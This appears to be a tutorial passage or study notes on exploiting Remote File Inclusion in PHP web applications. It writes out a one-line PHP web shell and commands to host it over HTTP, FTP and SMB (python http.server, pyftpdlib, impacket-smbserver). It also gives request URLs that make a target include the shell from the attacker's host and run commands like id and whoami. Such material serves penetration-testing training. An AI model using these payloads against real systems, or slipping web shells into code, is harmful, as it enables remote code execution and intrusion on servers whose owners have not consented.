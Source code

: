 ## Verify RFI

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled.

At first, `we should always start by trying to include a local URL` to ensure our attempt does not get blocked by a firewall or other security measures.
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

## Remote Code Execution with RFI
```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
## HTTP
```shell
sudo python3 -m http.server <LISTENING_PORT>
```
Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

## FTP
We may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:
```shell
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```
## SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.
```shell-session
$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

